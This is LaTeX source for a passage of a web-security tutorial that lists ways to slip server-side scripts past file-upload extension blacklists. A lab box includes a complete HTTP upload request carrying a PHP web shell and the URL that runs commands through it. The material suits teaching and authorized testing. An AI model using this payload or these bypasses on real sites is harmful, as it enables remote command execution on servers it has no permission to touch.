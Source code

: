 \documentclass[11pt]{article}
\begin{document}
\textbf{Obfuscating the extension.} Common bypass patterns include:
\begin{itemize}[leftmargin=1.4em]
    \item Case manipulation: \texttt{exploit.pHp}
    \item Double / reversed-double extensions: \texttt{exploit.php.jpg} or \texttt{exploit.jpg.php}
    \item Trailing characters that get stripped server-side: \texttt{exploit.php.}, \texttt{exploit.php\%20}, \texttt{exploit.php.....}
    \item Null byte injection (older stacks): \texttt{exploit.php\%00.jpg} or \texttt{exploit.php\textbackslash x00.jpg}
    \item URL-encoded or double URL-encoded dots/slashes: \texttt{exploit\%2Ephp}
    \item Semicolons before the extension (legacy Java/ASP stacks): \texttt{exploit.asp;.jpg}
    \item Multibyte Unicode sequences that normalize down to \texttt{.} or null bytes
    \item Recursive-stripping bypass: if the server strips \texttt{.php} only once, \texttt{exploit.p.phphp} becomes \texttt{exploit.php} after a single pass
\end{itemize}

\begin{labbox}{Lab pattern: blacklist bypass via obfuscated extension}
Fuzz the filename extension while keeping the payload constant:
\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="exploit.php5"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
------WebKitFormBoundary--
\end{lstlisting}
If \texttt{.php} is blacklisted but \texttt{.php5} is not, and the server is configured to hand \texttt{.php5} to the PHP interpreter, the shell still executes when requested at \texttt{/files/avatars/exploit.php5?command=id}.
\end{labbox}

\subsection{Bypassing content-based validation}
\end{document}
